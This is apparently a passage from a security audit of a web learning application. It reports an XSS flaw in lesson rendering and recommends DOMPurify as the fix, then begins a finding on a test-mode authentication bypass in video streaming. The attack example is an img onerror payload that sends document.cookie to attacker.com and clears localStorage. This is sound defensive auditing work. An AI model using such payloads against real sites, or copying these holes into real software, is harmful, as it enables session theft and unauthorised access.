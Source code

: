 **Issue:**
```typescript
<div dangerouslySetInnerHTML={{
  __html: currentLesson.content.replace(/\n/g, '<br>')
}} />
```

**Description:** User-generated lesson content is rendered as raw HTML without proper sanitization. This allows attackers to inject malicious scripts through lesson content.

**Attack Vector:**
```javascript
// Malicious lesson content
const maliciousContent = `
  <img src=x onerror="
    fetch('https://attacker.com/steal?cookie=' + document.cookie);
    localStorage.clear();
  ">
`;
```

**Recommendation:**
1. **Use DOMPurify or similar sanitization library**
2. Implement a whitelist-based HTML sanitizer
3. Store content as Markdown and render safely
4. Use React components instead of raw HTML

**Example Fix:**
```typescript
import DOMPurify from 'isomorphic-dompurify';

// Safe rendering
<div
  dangerouslySetInnerHTML={{
    __html: DOMPurify.sanitize(
      currentLesson.content.replace(/\n/g, '<br>'),
      {
        ALLOWED_TAGS: ['p', 'br', 'strong', 'em', 'ul', 'ol', 'li'],
        ALLOWED_ATTR: []
      }
    )
  }}
/>
```

---

## 2. HIGH Priority Security Issues

### 🟠 HIGH #1: Authentication Bypass in Video Streaming
**Severity:** HIGH
**Location:** `/src/app/api/video/stream/route.ts:258-260`

**Issue:**
```typescript
if (!userId && (process.env.NODE_ENV === 'development' || process.env.ENABLE_VIDEO_TEST === 'true')) {
  userId = 'test-user-123'
}
```
